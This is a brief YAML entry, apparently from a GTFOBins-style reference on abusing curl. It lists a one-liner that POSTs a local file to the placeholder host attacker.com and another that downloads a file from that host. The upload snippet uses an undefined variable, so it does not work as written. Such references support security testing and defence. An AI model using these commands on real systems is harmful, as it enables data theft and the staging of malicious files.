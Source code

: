 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=where_to_save
        curl $URL -o $LFILE
---
```

